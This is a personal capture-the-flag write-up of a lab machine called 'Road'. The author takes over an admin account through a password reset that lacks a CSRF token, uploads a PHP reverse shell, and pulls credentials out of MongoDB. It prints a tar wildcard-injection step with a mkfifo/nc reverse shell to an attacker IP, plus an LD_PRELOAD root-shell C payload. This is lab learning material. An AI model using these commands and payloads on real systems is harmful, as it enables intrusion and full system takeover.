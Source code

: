 # Road Helped-Through

Name: Road
Date:  16/4/2023
Difficulty:  Medium
Goals:  
- Follow along with Al while I do the more automatable time hungry Offsec execises 
- Warm up
Learnt:
- Try Harder
- Scrutinise integrity of password reset source code
Beyond Root:
- H4ddixB4dg3r Programming for a hour!

<iframe width="560" height="315" src="https://www.youtube.com/embed/yYw3ysOdNt8" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" allowfullscreen></iframe>

[Alh4zr3d - VOD](https://www.youtube.com/watch?v=yYw3ysOdNt8) I followed allow and paused serval times to distance myself from these Helped-Throughs as I inch closer to going for more OSCP stuff.

## Recon

The time to live(ttl) indicates its OS. It is a decrementation from each hop back to original ping sender. Linux is < 64, Windows is < 128.
![ping](Screenshots/ping.png)

Nuclei finds [[phpmyadmin-panel-http___10.10.75.48_phpMyAdmin_]]

- Registered a user: `admin@admin.com : admin`
- Found the `admin@sky.thm`

I found:
![](loggedinadminsemail.png)

Al points out No CSRF token
![](alfindcsrftoken.png)

Testing 
![](seewhathappens.png)
Results in:
![](none.png)

Password resets are not normally implemented without requiring previous password.
![](resetuser.png)

Oh oh
![](letsseeifitworked.png)

Now we are Admin
![](weareadminskythm.png)


Now we can upload a picture for user profile

Alh4zr3d points out XXS
![1080](sadliveoverflow.png)
It is not displaying everything as it is Reflected-based XSS

- It not stored as it is not persistent
- It is reflected back, but non persistent 

- Is user input is reflected back onto the page? 
- Is http-only flag set to prevent user cookie compromise ?

[Types of XSS](https://owasp.org/www-community/Types_of_Cross-Site_Scripting) either client-side or server-side
 - DOM XSS 
	 - Where the entire tainted data flow from source to sink takes place in the browser
	 - Is subset of Client XSS
- Reflected XSS
	- Non-Persistent
- Stored XSS
	- Persistent

![](alONEtoolsZero.png)


## Exploit and www-data Foothold

Simply just uploaded pentest monkey reverse shell. I was hoping I could crack open some methodological rigor for myself.
![](rshellachieved.png)

Go mongodb
![](webdeveloperowwnedfiles.png)
Al points out this:
![](iwentforconfbutalfinditfirst.png)

`ThisIsSecurePassword!`

I paused here to practice some SQL
![](sequalofwoow.png)


`webdeveloper : BahamasChapp123!@#`

```sql
mongo "mongodb://localhost:27017"
show dbs;
use backup;
show tables;
db.user.find();
```

![](webdeveloperspassword.png)

## PrivEsc

Now as the webdeveloper user:
![](clapping.png)
Initial sudo privilege:
![](sudosky_back_up_utility.png)

I ran this is binary and paused the video as I think this is similar to [[Reddish-Helped-Through]] - it is backing up the webserver with a wildcard:
![](backupthewebshell.png)
[Hack Tricks - wildcards spare trikcs](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/wildcards-spare-tricks)

It uses `tar`
![](tarwildcards.png)

So we can just get root from something like
```bash
touch "--checkpoint=1"
touch "--checkpoint-action=exec=sh shell.sh"
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.14.43.145 6969 >/tmp/f" > shell.sh
```

![](didnotwork.png)

Al points out how sudo is `env_keep+=LD_PRELOAD`, we have `gcc`

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/bash");
}
```

![](whichworked.png)

- Try Harder.

## Beyond Root

H4ddixB4dg3r Programming for a hour!